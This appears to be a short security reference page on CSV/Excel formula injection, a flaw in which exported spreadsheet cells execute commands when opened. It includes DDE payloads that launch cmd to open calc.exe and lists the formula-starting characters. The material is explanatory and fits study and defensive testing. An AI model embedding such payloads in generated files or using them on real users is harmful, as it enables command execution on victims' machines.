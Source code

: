 # CSV Excel formula injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.	

## Exploit

Basic exploit with Dynamic Data Exchange 

```powershell
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
```

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## Thanks to

* [OWASP - CSV Excel Macro Injection](https://owasp.org/index.php/CSV_Excel_Macro_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection)
* [Comma Separated Vulnerabilities - James Kettle](https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/)